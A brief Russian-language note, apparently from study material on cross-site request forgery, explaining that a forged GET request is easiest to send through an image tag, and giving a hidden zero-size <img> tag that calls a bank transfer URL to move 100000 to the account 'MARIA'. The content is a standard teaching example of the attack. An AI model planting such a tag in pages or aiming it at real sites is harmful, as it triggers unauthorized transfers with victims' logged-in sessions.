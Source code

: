 # GET-запрос

Легче через запрос изображения (куки при ненастроенном CORS подтянутся)

`<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">`
